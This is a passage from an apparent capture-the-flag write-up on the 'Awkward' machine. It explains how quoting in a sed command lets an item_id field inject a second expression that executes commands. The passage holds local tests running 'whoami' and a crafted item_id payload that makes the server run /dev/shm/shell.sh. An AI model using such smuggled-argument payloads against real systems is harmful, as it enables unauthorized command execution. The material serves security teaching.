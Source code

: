 ```

oxdf@hacky$ sed -i '/item_id=1' '1e id' test 
sed: -e expression #1, char 10: unterminated address regex

```

But if I give it `-e`, then it does work:

```

oxdf@hacky$ cat test 
This is a test file
oxdf@hacky$ sed -i '/item_id=1' -e '1e whoami' test
sed: can't read /item_id=1: No such file or directory
oxdf@hacky$ cat test 
oxdf
This is a test file

```

There’s a warning about the junk at the front, but then it does what I want it to. It turns out if I make the `'` good, the `'/d'` at the end won’t matter either:

```

oxdf@hacky$ cat test 
This is a test file
oxdf@hacky$ sed -i '/item_id=1' -e '1e whoami' '/d' test 
sed: can't read /item_id=1: No such file or directory
sed: can't read /d: No such file or directory
oxdf@hacky$ cat test 
oxdf
This is a test file

```

#### Building Remote POC

The `sed` on Awkward looks like:

```

sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}

```

If I set `$item_id` to `1' -e '1e /dev/shm/shell.sh' '`, then it becomes:

```

sed -i '/item_id=1' -e '1e /dev/shm/shell.sh' '/d' {$STORE_HOME}cart/{$user_id}

```

This matches exactly what I had above, except now it’s running `shell.sh`.

One gotcha to look out for - if your script (`shell.sh`) outputs any data, then that data will be added to the front of the file. But once that happens, it will fail the `checkValidItem` check, and never each `sed`:
